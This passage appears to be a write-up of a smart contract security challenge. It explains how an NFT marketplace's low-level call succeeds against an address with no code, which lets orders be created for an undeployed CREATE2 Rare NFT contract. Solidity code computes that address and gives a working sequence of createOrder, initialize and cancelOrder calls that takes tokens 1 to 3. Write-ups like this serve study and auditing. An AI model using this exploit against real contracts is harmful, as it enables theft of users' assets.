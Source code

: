 ```solidity
            )
        data := returndatasize()

        mstore(0x60, 0) // restore the zero slot to zero
        mstore(0x40, memPointer) // restore the memPointer
    }
    if (!success) {
        revert TransferFromFailed();
    }
}
```

It uses the `call` opcode internally, but if the target address called by the `call` opcode is an EOA, the `call` always succeeds.
Any `createOrder` can be executed for any EOA without the Rare NFT transfer if it is before the `initialize` function is executed.

This vulnerability can be exploited to take away an NFT by performing the following steps.
1. Execute the `createOrder` function of an NFT you do not own to the address of the undeployed Rare NFT contract.
2. Execute the `initialize` function.
3. Execute the `cancelOrder` function for the order created in step 1.

The address of the Rare NFT contract can be pre-computed as follows because the `create2` opcode is used.
```solidity
library Create2 {
    function computeAddr(address creator, bytes32 salt, bytes memory bytecode, bytes memory encodedArgs) internal pure returns(address) {
        return address(uint160(uint256(keccak256(
            abi.encodePacked(bytes1(0xff), creator, salt, keccak256(abi.encodePacked(bytecode, encodedArgs)))
        ))));
    }
}
```
```solidity
address rareNFTAddress = Create2.computeAddr(
    address(nftMarketplace),
    keccak256("rareNFT"),
    nftMarketplace.getNFTVersion(),
    abi.encode("Rare NFT", "rareNFT")
);
```

The following code can take away Rare NFTs whose `tokenId` is `1`, `2`, and `3`.

```solidity
uint256 orderId = nftMarketplace.createOrder(rareNFTAddress, 1, 0);
nftMarketplace.createOrder(rareNFTAddress, 2, 0);
nftMarketplace.createOrder(rareNFTAddress, 3, 0);
nftMarketplace.initialize();
nftMarketplace.cancelOrder(orderId);
nftMarketplace.cancelOrder(orderId + 1);
nftMarketplace.cancelOrder(orderId + 2);
```
